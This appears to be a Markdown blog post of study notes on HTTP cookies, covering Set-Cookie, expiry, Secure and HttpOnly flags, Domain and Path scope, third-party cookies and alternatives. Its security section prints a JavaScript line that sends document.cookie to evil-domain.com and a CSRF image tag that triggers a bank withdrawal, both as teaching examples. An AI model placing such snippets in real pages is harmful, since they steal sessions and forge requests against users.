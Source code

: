 ```yaml
---
layout : post
title : Http Cookie
comments: true
categories : Other
---
```


  An HTTP cookie is a small piece of data that a server sends to the user's web browser. 
  
  The browser stores it(if it is enabled) and send it back to the same server in subsequent each request
  inside a Cookie HTTP header, even including requests for assets like images or CSS / JavaScript files.

### Purpose

  1. Session management
  2. Personalization
  3. Tracking
  
### Restrictions of Cookie

  - Cookies can only store 4KB of data
  - Cookies are private to the domain. A site can only read the cookies it set, not other domains cookies
  - You can have up to 20 limits of cookies per domain (but the exact number depends on the specific browser implementation)
  - Cookies are limited in their total number (but the exact number depends on the specific browser implementation). 
    If this number is exceeded, new cookies replace the older ones.
  
### Storage

  It is recommended nowadays to prefer modern storage APIs to improve performance. 
  
  Modern APIs for client storage are the [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) (`localStorage` and `sessionStorage`) 
  and [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API).
  
### Creating cookies

  When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. A simple cookie is set like this:
  
  > Set-Cookie: \<cookie-name\>=\<cookie-value\>
  
  This header from the server tells the client to store a cookie.
  
  After that, the browser will send back all previously stored cookies to the server using the `Cookie` header.
  
#### Valid Cookie Value

  Cookie value should not contain any whitespace, comma or semicolon.
  
### Delete cookie

  To delete a cookie, unset its value and pass a date in the past.
  
### Session cookies

  Session cookie will be deleted when the browser is closed, because it didn't specify an `Expires` or `Max-Age` directive.
  
### Permanent cookies

  Permanent cookies expire at a specific date (`Expires`) or after a specific length of time (`Max-Age`).
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  Note: When an expiry date is set, the time and date set is relative to the client the cookie is being set on, not the server.
  
### Secure and HttpOnly cookies

  A `secure` cookie is only sent to the server over the `HTTPS` protocol. 
  
  **Note: This flag doesn't make sure the cookies will be sent secure.** 
  
  To prevent cross-site scripting (XSS) attacks, `HttpOnly` cookies are inaccessible to JavaScript's `Document.cookie` API,
  that is if the `HttpOnly` flag is not set, existing cookies can be accessed from JavaScript like `console.log(document.cookie);`.
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  
### Domain and Path

  The `Domain` and `Path` directives define the scope of the cookie: what URLs the cookies should be sent to.
  
#### Domain

  The purpose of the domain is to allow cookies to cross sub-domains. 
  
  If unspecified, it defaults to the host of the current document location, **excluding subdomains**. 
  If it is specified, then subdomains are always included.

  For example, if `Domain=mozilla.org` is set, then cookies are included on subdomains like `developer.mozilla.org`.
  
#### Path

  The `path` gives you the chance to specify a directory where the cookie is active. 
  
  For example, if `path=/docs` is set, this cookie is sent on `/docs`, `/docs/Web/` and other sub-urls of `/docs`.

  If you don’t set a path, it defaults to the current document location. 
  
  Usually the path is set to `/`, which means the cookie is valid throughout the **entire domain**.
  
  Please refer [Paths and Path-Match](https://tools.ietf.org/html/rfc6265#section-5.1.4) for detail.
  
##### Difference between with / and without /

[internet-explorer-sends-the-wrong-cookie-when-the-paths-overlap](https://stackoverflow.com/questions/8292449/internet-explorer-sends-the-wrong-cookie-when-the-paths-overlap)
  
### Security

  Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
  
  > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  
### Cross-site request forgery (CSRF)

  Someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), 
  instead it really is a request to your bank’s server to withdraw money:
  
  > \<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  
### Third-party cookies

  Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, 
  the cookies is said to be a **first-party cookie**. If the domain is different, it is said to be a **third-party cookie**. 
  
  While `first-party` cookies are sent only to the server setting them, 
  a web page may contain images or other components stored on servers in other domains (like ad banners).
  
### Do-Not-Track

  The `DNT` header can be used to signal that a web application should disable either its tracking or 
  cross-site user tracking of an individual user. 
  
### Alternatives to cookie

  **JSON Web Tokens (JWT)**, which is a **Token-based Authentication**.
  
### References

[mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

[humanwhocodes](https://humanwhocodes.com/blog/2009/05/05/http-cookies-explained/)

[flaviocopes](https://flaviocopes.com/cookies/)

[a-few-speed-improvements](https://stackoverflow.blog/2009/08/09/a-few-speed-improvements/)

[how-do-browsers-know-which-cookie-to-get](https://security.stackexchange.com/questions/33348/how-do-browsers-know-which-cookie-to-get)

[cookie-attributes-and-their-importance](https://www.paladion.net/blogs/cookie-attributes-and-their-importance)
